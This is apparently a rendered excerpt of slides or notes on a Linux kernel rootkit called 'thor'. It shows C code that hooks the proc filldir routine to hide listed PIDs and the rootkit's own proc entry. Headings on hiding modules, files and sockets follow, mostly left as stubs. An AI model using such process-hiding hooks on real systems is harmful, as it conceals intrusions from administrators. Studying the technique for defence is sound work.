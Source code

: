 ```{.c .numberLines}
    /* restore original filldir */
    *ctx_actor = orig_proc_filldir;

    return ret;
}
```

## `thor_proc_filldir()`

```{.c .numberLines}
static int thor_proc_filldir(void *buf, const char *name, int namelen,
                             loff_t offset, u64 ino, unsigned d_type)
{

    /* ... */

    /* hide specified PIDs */
    list_for_each_entry(tmp, &(pid_list.list), list) {
        if (pid == tmp->pid) {
            return 0;
        }
    }

    /* hide thor itself */
    if (strcmp(name, THOR_PROCFILE) == 0) {
        return 0;
    }

    return orig_proc_filldir(buf, name, namelen, offset, ino, d_type);
}
```

# Hiding Kernel Modules

## -

similar to the previous one

# Hiding Files

## -

similar to the previous one

# Hiding Sockets

## Init and Cleanup
